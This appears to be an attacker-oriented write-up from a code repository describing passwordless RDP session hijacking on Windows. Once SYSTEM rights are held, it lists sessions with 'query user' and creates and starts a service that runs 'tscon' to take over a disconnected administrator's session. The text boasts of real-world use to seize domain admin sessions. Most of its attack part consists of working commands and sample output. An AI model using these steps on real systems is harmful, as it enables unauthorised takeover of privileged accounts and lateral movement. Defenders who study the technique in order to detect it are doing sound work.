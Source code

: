 # Passwordless RDP Session Hijacking



A privileged user, which can gain command execution with **NT AUTHORITY/SYSTEM** rights can hijack any currently logged in user's session, without any knowledge about his credentials.

The Terminal Services session can be in either connected or disconnected state to hijack it.



This is not a vulnerability according to microsoft it is a "feature" but what would we do if microsoft didnt have so many "features" am i right? :D

by abusing this "feature", we can manage to maybe grab the domain admin session. if it ever logged to the computer we compromised and forgot to turn off his session.



The funny thing about this vulnerability is, we don't need to use any tool we can do all of this using microsoft built in commands.

**Tested on every possible version of windows from 2003 onwards.**



example of hijacking user \(active or disconnected\)  on some remote sensitive server that i have no access to, and haven't even knew about it, this technique allows me to compromise that server in just few commands!

Everything has been tested in real world scenarios and works every single time :\).



#### Important thing to know:



* You must have **Full Control access permission - NT AUTHORITY/SYSTEM** on the target we are trying to hijack from
* if you do not specify a password in the **password** parameter ,and you try to log into any available session it will accept it!





#### So how is it done :



Basically once we have a shell on a target and we are **NT/AUTHORITY** we can run the folloing command to query for available sessions on the target 

```
query user 
```

once we run the command we should see what sessions we have :

```
C:\>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 #administrator                             1  Disc              18/01/2018 2:20 PM
>ouruser            session-1          2  Active          .  18/01/2018 2:20 PM

C:\>
```

all we need right now is to trigger it we can just create a scheduled task to launch it :

```
sc create goodbye binpath= "cmd.exe /k tscon 1 /dest:session-1"

```

start the service : 

```
net start goodbye
```

once the service is up and running your session will be replaced with the administrator user that connected to the machine we are controlling without any password! 



there are severals ways to run it if u are inside a shell and it will be updated in the future.



Written by :

~~**~BufferOv3rride~**~~

